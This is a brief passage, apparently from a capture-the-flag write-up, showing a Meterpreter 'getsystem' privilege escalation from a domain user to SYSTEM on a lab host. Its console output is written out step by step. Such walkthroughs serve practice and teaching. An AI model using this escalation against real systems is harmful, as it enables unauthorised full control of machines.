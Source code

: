 We use the Meterpreter's `getsystem` command and get a `SYSTEM` shell on the target host:

```
...
meterpreter > getuid 
Server username: HAZE\alexander.green
meterpreter > getsystem 
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
